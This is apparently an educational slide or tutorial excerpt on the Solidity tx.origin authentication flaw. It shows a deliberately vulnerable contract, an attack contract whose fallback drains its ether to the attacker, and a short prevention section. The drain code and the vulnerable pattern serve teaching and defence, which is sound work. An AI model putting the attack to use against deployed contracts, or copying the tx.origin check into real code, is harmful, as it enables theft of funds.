 # Tx.Origin Authentication
```javascript
// Phishable.sol
contract Phishable {
    address public owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance);
    }
}
```

---
# Tx.Origin Attack
```javascript
import "Phishable.sol"
contract AttackContract {
    Phishable phishableContract;
    address attacker; // The attacker's address to receive funds

    constructor (Phishable _phishableContract, address _attackerAddress) {
        phishableContract = _phishableContract;
        attacker = _attackerAddress;
    }

    function () payable {
        phishableContract.withdrawAll(attacker);
    }
}
```

---
# Preventative Techniques

tx.origin should not be used for authorization in smart contracts.

For example, if one wanted to deny external contracts from calling the current contract, one could implement a require of the form `require(tx.origin == msg.sender)`. This prevents intermediate contracts being used to call the current contract, limiting the contract to regular codeless addresses.

---
# Contract Libraries
